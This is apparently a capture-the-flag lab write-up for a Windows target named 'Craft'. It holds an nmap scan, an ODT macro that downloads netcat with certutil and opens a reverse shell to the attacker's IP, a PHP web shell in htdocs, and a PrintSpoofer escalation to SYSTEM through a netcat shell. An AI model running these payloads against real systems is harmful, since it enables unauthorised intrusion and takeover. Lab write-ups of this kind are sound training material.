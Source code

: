 ```
nmap -sC -sV -Pn -p- 192.168.172.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 11:19 CDT
Nmap scan report for 192.168.172.169
Host is up (0.044s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.93 seconds

```

Located an upload on the website and when uploading it informed us to use the ODT format. Looking this up, I was able to find a way to add a Macro.

Added this after main:

```
Shell("certutil.exe -urlcache -split -f 'http://192.168.45.216:443/nc64.exe' 'C:\Windows\Temp\nc.exe'")
Shell("C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.216 80")
```

I then visited Tools > Customize > Events > Open Document and setup the Macro and saved.

I then uploaded the shell on the website and setup a listener and got a reverse shell.

```
C:\xampp>icacls htdocs
icacls htdocs
htdocs CRAFT\apache:(OI)(CI)(F)
       CRAFT\apache:(I)(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Administrators:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       BUILTIN\Users:(I)(CI)(AD)
       BUILTIN\Users:(I)(CI)(WD)
       CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

I saw a folder for an apache user. These users generally have more permissions so I uploaded a command php file into the htdocs to get control.

```
http://192.168.172.169/test.php?cmd=whoami%20/priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I see this user is exactly what I need. I used a powershell reverse shell to get access to setup a Priv Esc to System.

I utilized PrintSpoofer.exe and netcat to get a reverse shell back.

```
.\PrintSpoofer64.exe -c "nc.exe 192.168.45.216 4443 -e cmd"
```

I now had system.
